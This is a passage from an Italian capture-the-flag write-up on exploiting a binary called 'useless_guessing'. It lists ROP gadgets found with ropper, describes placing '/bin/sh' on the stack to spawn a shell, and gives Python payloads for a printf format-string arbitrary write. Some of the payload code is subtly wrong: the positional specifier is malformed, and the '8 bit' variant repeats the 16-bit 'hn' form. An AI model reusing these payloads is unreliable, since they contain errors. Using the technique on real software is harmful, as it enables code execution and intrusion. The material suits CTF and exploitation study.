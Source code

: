 Il binario è linkato staticamente, quindi contiene già tutti i gadget necessari. È possibile estrarli per esempio utilizzando `ropper`:

```bash
➜  ropper -f build/useless_guessing
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

Gadgets
=======

[...]
0x000000000000917f: pop rdi; ret;
[...]
0x00000000000111ee: pop rsi; ret;
[...]
0x0000000000021ec6: syscall; ret;
[...]
0x000000000008de8a: pop rax; pop rdx; pop rbx; ret;
[...]

```

Un paio di note:

- è possibile inserire la stringa `/bin/sh\x00` semplicemente come parte del guess del secret, subito dopo ai byte che permettono di bypassare il controllo di `strncmp`
- questa stringa è sullo stack, quindi il suo indirizzo è facilmente calcolabile dato che abbiamo già un leak di un indirizzo dello stack

### Arbitrary write

Dovendo chiamare `printf` diverse volte per scrivere la ROP chain sullo stack a pezzi, è comodo creare una funzione helper che generi automaticamente il payload. Nel payload di esempio sotto:

- supponiamo che l'offset dell'inizio del nostro input sia 26
- supponiamo che prima del nostro input la `printf` abbia già stampato `0x1c` caratteri

-> il risultato è che la `printf` scriverà `0x11337` come numero a 32bit all'indirizzo `0x4141414141414141`

```python
payload = f"%{0x11337 - 0x1c}c$28n".encode()            # 32 bit
payload += b"A" * (16 - len(payload))                   # Per allineare il blocco dell'indirizzo a 8 byte
payload += p64(0x4141414141414141)
```

Allo stesso modo, è possibile scrivere numeri a 16 o 8 bit utilizzando i payload sottostanti:

```python
payload = f"%{0x11337 - 0x1c}c$28hn".encode()           # 16 bit
payload += b"A" * (16 - len(payload))                   # Per allineare il blocco dell'indirizzo a 8 byte
payload += p64(0x4141414141414141)

payload = f"%{0x11337 - 0x1c}c$28hn".encode()           # 8 bit
payload += b"A" * (16 - len(payload))                   # Per allineare il blocco dell'indirizzo a 8 byte
payload += p64(0x4141414141414141)
```
